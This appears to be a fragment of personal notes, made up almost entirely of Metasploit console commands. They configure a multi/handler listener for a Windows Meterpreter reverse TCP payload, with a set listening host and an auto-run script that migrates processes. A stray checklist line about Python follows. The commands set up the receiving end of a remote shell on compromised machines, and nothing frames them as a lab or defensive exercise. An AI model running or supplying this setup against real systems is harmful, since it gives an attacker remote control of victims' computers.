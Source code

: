 ```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set LHOST 172.30.1.29
```

```
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
```

```
msf6 exploit(multi/handler) > exploit
```

- [x] PYthon3  [due:: 2025-04-11]

